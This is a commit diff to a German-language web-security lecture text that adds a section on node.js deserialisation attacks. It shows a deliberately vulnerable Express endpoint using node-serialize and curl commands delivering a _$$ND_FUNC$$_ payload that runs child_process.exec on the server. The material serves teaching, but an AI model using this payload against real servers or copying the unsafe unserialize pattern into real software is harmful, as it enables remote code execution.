

Before and after one commit to andreashappe/lecture-web-security, a LaTeX thesis (main.tex, which reads chapters/injection_attacks.tex): part of page 98 of 135 before the commit and two parts of pages 98 and 99 of 137 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
add serialisation attack (node.js)

```diff
--- a/chapters/injection_attacks.tex
+++ b/chapters/injection_attacks.tex
@@ -577,3 +581,73 @@ PAYLOAD
 \end{minted}
 
 Der Code liest zuerst eine Payload aus einem File aus (der Pfad wird durch die Variable ARGV bereitgestellt) und erstellt dann ein Dokument welches ein serialisiertes ERB-Objekt beschreibt. Hier wurde nun src mit dem Schadcode befüllt und falls die Webapplikation, welche dieses serialisierte Objekt entgegen nimmt, nun das Objekt deserialisert und auf die \textit{result} Methode zugreift wird der bösartige Code des Angreifers ausgeführt. Dies entspricht einer Remote Command Injection, basierend auf einem Serialisierungsfehler.
+
+\subsection{Serialisierungsangriffe in Javascript / Node.js}
+
+Ein schönes Beispiel für Serialisierungsangriffe ist folgende \textit{node.js} Applikation welche die Serialisierungsbibliothek \textit{node-serialize} verwendet:
+
+\begin{minted}{javascript}
+const express = require('express');
+const bodyParser = require('body-parser');
+const serialize = require('node-serialize');
+
+const app = express();
+
+app.use(bodyParser.urlencoded({ extended: false }));
+
+app.post("/api/deserialize", function(req, res) {
+	var str = ""+req.body.fubar;
+	  const todo = serialize.unserialize(str);
+	  console.log(todo);
+	  res.send("wohoo!");
+});
+
+const server = app.listen(3000, function() {
+	  console.log("Server started! (Express.js)");
+
+		// Beispiel eines "normalen" serialisierten Objekts
+		const normal = {
+			todo: "some string"
+		};
+	  console.log("serialized normal object" + serialize.serialize(normal));
+});
+\end{minted}
+
+Bei diesem Beispiel wird vom Server als Parameter ,,fubar'' ein serialisiertes Objekt als Text entgegen genommen, deserialisiert und ausgegeben. Das erwartete serialisierte Object wird nun über das Kommandozeilentool \textit{curl} an den Server übertragen:
+
+\begin{minted}{shell}
+$ curl -X POST -d "fubar={\"todo\":\"some string\"}" http://localhost:3000/api/deserialize
+
+# Ausgabe am Server:
+Server started! (Express.js)
+serialized normal object: {"todo":"some string"}
+serialized attack code: {"todo":"_$$ND_FUNC$$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}"}
+
+{ todo: 'some string' }
+\end{minted}
+
+In Javascript kann eine Klasse/Objekt auch eine Funktion als Element besitzen. Folgende Klasse inkludiert z.B. unter dem Namen ,,todo'' nicht ein Attribut, sondern eine ausführbare Funktion:
+
+\begin{minted}{javascript}
+	 	// Beispiel eines serialisierten Objekts mit einer aufrufbaren Funktion
+	  const todo = {
+			todo : function() {
+				// child_process kann verwendet werden um eine ausführbare Datei aufzurufen
+				require('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})
+			}
+		};
+\end{minted}
+
+Wird diese Klasse serialisiert, wird folgender serialisierter Text erstellt:
+
+\begin{minted}{text}
+{"todo":"_$$ND_FUNC$$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}"}
+\end{minted}
+
+Dieser inkludiert das Ausführen eines Befehls (,,ls /bin'') in der Hoffnung, dass beim deserialisieren dieser Befehl am Server aufgerufen werden würde. Dieses Kommando wird nun ebenso über curl an den Server übertragen:
+
+\begin{minted}{shell}
+# Die Zeichen \ und $ mussten teilweise maskiert werden
+$ curl -X POST -d "fubar={\"todo\":\"_\$\$ND_FUNC\$\$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}\"}" http://localhost:3000/api/deserialize
+
+# Ausgabe am Server:
@@ -579,0 +661 @@ Der Code liest zuerst eine Payload aus einem File aus (der Pfad wird durch die V
+$ curl -X POST -d "fubar={\"todo\":\"_\$\$ND_FUNC\$\$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}()\"}" http://localhost:3000/api/deserialize
```
Also changed, not shown: chapters/injection_attacks.tex (35 more changed lines).
